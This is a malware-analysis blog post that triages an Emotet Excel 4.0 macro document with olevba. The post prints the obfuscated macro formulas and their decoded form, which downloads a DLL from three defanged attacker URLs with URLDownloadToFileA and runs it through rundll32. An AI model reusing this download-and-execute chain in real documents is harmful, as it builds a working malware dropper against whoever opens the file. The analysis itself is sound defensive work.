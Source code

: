 ```yaml
---
layout: post
title: "Emotet's Excel 4.0 Macros Dropping DLLs"
date: 2022-01-17
categories: malware
tags: malware emotet excel4-macro
permalink: /emotet-excel4-macro-analysis/
---
```


It's been a little while since I checked in on Emotet to see how its first stage loaders are doing. Lately the first stage has been using Excel 4.0 macros to drop payloads, so in this post I'll walk through the analysis of one Emotet Excel document. If you want to play along at home, I'm working with this sample in MalwareBazaar: [https://bazaar.abuse.ch/sample/1a243db583013a6999761dad88d6952351fdc2cd17d2016990276a9dd11ac90b/](https://bazaar.abuse.ch/sample/1a243db583013a6999761dad88d6952351fdc2cd17d2016990276a9dd11ac90b/)

## Triaging the File

As always, we should confirm our filetype first. Let's give it a go using `file`, `xxd`, and `head`.

```console
remnux@remnux:~/cases/emotet$ file nn30.xlsm 
nn30.xlsm: Microsoft Excel 2007+

remnux@remnux:~/cases/emotet$ xxd nn30.xlsm | head
00000000: 504b 0304 1400 0600 0800 0000 2100 a78b  PK..........!...
00000010: 2b33 c901 0000 9707 0000 1300 0802 5b43  +3............[C
00000020: 6f6e 7465 6e74 5f54 7970 6573 5d2e 786d  ontent_Types].xm
00000030: 6c20 a204 0228 a000 0200 0000 0000 0000  l ...(..........
00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000070: 0000 0000 0000 0101 0000 0000 0000 0000  ................
00000080: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000090: 0000 0000 0000 0000 0000 0000 0000 0000  ................
```

The `file` output says the file magic belongs to a Excel document, and the first few bytes are what I'd expect from an Excel document. The `PK` part of the magic is common to zip archives as well and Excel XLSX documents are similar to zip archives. The string `[Content Types].xml` refers to the filename of one of the XML files that make up a larger Excel document. If you unzip a XLSX file, you'll find one of those files in the extracted content. All told, this is consistent with an Excel doc.

## Analyzing the Document

A good starting point for the analysis is `olevba`. 

```console
remnux@remnux:~/cases/emotet$ olevba nn30.xlsm 
olevba 0.60 on Python 3.8.10 - http://decalage.info/python/oletools
===============================================================================
FILE: nn30.xlsm
Type: OpenXML
-------------------------------------------------------------------------------
VBA MACRO xlm_macro.txt 
in file: xlm_macro - OLE stream: 'xlm_macro'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
' RAW EXCEL4/XLM MACRO FORMULAS:
' SHEET: EWDFFEFAD, Macrosheet
' CELL:E13, =FORMULA(Srieifew1!E2,E16)=FORMULA(Buuk1!P22&Buuk1!H9&Buuk1!L2&Buuk1!B15&Buuk1!B15&Srieifew1!B10&Srieifew1!D6&Srieifew1!F9&Srieifew1!G15&Srieifew1!P20&Srieifew1!K5,E18)=FORMULA(Buuk1!P22&Buuk1!J11&Buuk1!B18&Buuk1!P11&"YHYH"&Buuk1!P9&Buuk1!K9&Buuk1!P7&Buuk1!P19&Buuk1!H9&Buuk1!L2&Buuk1!B15&Buuk1!B15&Srieifew1!B10&Srieifew1!D6&Srieifew1!F9&Srieifew1!S11&Srieifew1!P20&Srieifew1!K5&Buuk1!P13,E20)=FORMULA(Buuk1!P22&Buuk1!J11&Buuk1!B18&Buuk1!P11&"YHYH1"&Buuk1!P9&Buuk1!K9&Buuk1!P7&Buuk1!P19&Buuk1!H9&Buuk1!L2&Buuk1!B15&Buuk1!B15&Srieifew1!B10&Srieifew1!D6&Srieifew1!F9&Srieifew1!D18&Srieifew1!P20&Srieifew1!K5&Buuk1!P13,E22)=FORMULA(Buuk1!P22&Buuk1!J11&Buuk1!B18&Buuk1!P11&"YHYH2"&Buuk1!P9&Buuk1!K9&Buuk1!P7&Buuk1!H9&Buuk1!B15&Buuk1!I17&Buuk1!I3&Buuk1!H13&Buuk1!P11&Buuk1!K9&Buuk1!P13&Buuk1!P7&Buuk1!P13,E24)=FORMULA(Buuk1!P22&Buuk1!H13&Buuk1!N4&Buuk1!H13&Buuk1!H9&Buuk1!P11&Buuk1!P15&Buuk1!H9&Buuk1!P20&Srieifew1!O14&Srieifew1!Q3&Srieifew1!N9&Srieifew1!O5&Buuk1!P15&Buuk1!P17&"YHYH6"&Buuk1!P13,E26)=FORMULA(Buuk1!P22&Buuk1!G24&Buuk1!H13&Buuk1!I26&Buuk1!E11&Buuk1!G24&Buuk1!K23&Buuk1!P11&Buuk1!P13,E32), 0
' - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
' EMULATION - DEOBFUSCATED EXCEL4/XLM MACRO FORMULAS:
' CELL:E13       , FullEvaluation      , False
' CELL:E18       , FullEvaluation      , CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"hxxps://zml.laneso.com/packet/AlvJ8OdtSYEeeCQP/","..\erum.ocx",0,0)
' CELL:E20       , FullEvaluation      , IF(YHYH<0,CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"hxxp://ostadsarma.com/wp-admin/JNgASjNC/","..\erum.ocx",0,0))
' CELL:E22       , FullEvaluation      , IF(YHYH1<0,CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"hxxp://govtjobresultbd.xyz/sjjz/UIUhOHsLqjOy9/","..\erum.ocx",0,0))
' CELL:E24       , FullEvaluation      , IF(YHYH2<0,CLOSE(0),)
' CELL:E26       , PartialEvaluation   , =EXEC("C:\Windows\SysWow64\rundll32.exe ..\erum.ocx,D""&""l""&""lR""&""egister""&""Serve""&""r")
' CELL:E32       , FullEvaluation      , RETURN()
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|Suspicious|CALL                |May call a DLL using Excel 4 Macros (XLM/XLF)|
|Suspicious|Windows             |May enumerate application windows (if        |
|          |                    |combined with Shell.Application object)      |
|Suspicious|URLDownloadToFileA  |May download files from the Internet         |
|Suspicious|EXEC                |May run an executable file or a system       |
|          |                    |command using Excel 4 Macros (XLM/XLF)       |
|Suspicious|Base64 Strings      |Base64-encoded strings were detected, may be |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |hxxps://zml.laneso.c|URL                                          |
|          |om/packet/AlvJ8OdtSY|                                             |
|          |EeeCQP/             |                                             |
|IOC       |hxxp://ostadsarma.co|URL                                          |
|          |m/wp-admin/JNgASjNC/|                                             |
|IOC       |hxxp://govtjobresult|URL                                          |
|          |bd.xyz/sjjz/UIUhOHsL|                                             |
|          |qjOy9/              |                                             |
|IOC       |rundll32.exe        |Executable file name                         |
|Suspicious|XLM macro           |XLM macro found. It may contain malicious    |
|          |                    |code                                         |
+----------+--------------------+---------------------------------------------+
```

Interpreting the output, it looks like the document has Excel 4.0 macros that download content from these URLs:

- `hxxps://zml.laneso[.]com/packet/AlvJ8OdtSYEeeCQP/`
- `hxxp://ostadsarma[.]com/wp-admin/JNgASjNC/`
- `hxxp://govtjobresultbd[.]xyz/sjjz/UIUhOHsLqjOy9/`

And using the [`URLDownloadToFileA`](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/ms775123(v=vs.85)) function from `urlmon.dll`, the document saved the downloaded content to `erum.ocx`.

Afterward, the document proceeded to execute `C:\Windows\SysWow64\rundll32.exe ..\erum.ocx,D"&"l"&"lR"&"egister"&"Serve"&"r`. The obfuscation on the DLL export reduces down to `DllRegisterServer`. So the process ancestry becomes `excel.exe -> rundll32.exe erum.ocx,DllRegisterServer`.

We can confirm this by looking at a sandbox report from Tria.ge here: [https://tria.ge/220115-mqldpsdhb7/behavioral1](https://tria.ge/220115-mqldpsdhb7/behavioral1).

Thanks for reading!